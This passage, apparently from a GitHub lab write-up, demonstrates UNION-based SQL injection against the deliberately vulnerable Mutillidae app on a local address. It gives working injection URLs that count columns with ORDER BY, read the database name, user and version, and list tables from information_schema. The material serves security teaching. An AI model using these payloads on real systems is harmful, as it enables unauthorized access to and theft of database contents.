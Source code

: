 
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details


![Screenshot 2023-06-10 224839](https://github.com/praveenst13/sqlinjection/assets/118787793/0eb340b9-63a6-433e-878b-45f3b396f1a2)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![Screenshot 2023-06-10 224839](https://github.com/praveenst13/sqlinjection/assets/118787793/0eb340b9-63a6-433e-878b-45f3b396f1a2)



When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![Screenshot 2023-06-10 224928](https://github.com/praveenst13/sqlinjection/assets/118787793/86073e2f-937b-47a4-9b9d-c0c2863b2a7c)


 As it is having 5 columns the query worked fine and it provides the correct result


![Screenshot 2023-06-10 224939](https://github.com/praveenst13/sqlinjection/assets/118787793/7a660480-5cb6-4d86-acd1-08f7a4d5e2fa)


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![Screenshot 2023-06-10 225037](https://github.com/praveenst13/sqlinjection/assets/118787793/1c7ac260-3410-4f75-8091-2cda6b7f20c0)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![Screenshot 2023-06-10 225105](https://github.com/praveenst13/sqlinjection/assets/118787793/12ebac90-8efb-4558-a442-541029220fa3)
 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details



![Screenshot 2023-06-10 225314](https://github.com/praveenst13/sqlinjection/assets/118787793/78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
